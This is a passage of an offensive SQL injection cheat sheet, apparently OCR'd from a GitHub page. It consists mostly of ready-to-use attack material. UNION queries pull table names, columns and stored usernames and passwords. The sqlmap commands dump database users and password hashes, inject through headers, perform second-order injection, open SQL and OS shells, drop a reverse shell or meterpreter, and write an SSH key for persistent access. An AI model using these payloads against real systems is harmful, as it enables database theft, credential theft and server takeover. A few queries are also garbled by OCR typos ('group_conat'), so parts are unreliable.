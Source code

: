 `union all select group_concat(table_name) from information`_`_`_`schema.tables`

above query will return all the tables present in the database.

* Extract columns

`union all select group_concat(column_name1),group_conat(column_name2) from information`_`_`_`schema.tables where table_name='tablename'`

* Extract data

`union all select group_concat(username),group_conat(passwords) from tablename`

### **SQL injection using SQLmap** ###

#### **Basic arguments for SQLmap** ####

```
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

#### **Load a request file and use mobile user-agent** ####

```
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```

#### **Custom injection in UserAgent/Header/Referer/Cookie** ####

```
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

#### **Second order injection** ####

```
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

#### **Shell** ####

```
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

SSH Shell by dropping an SSH key
python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
```
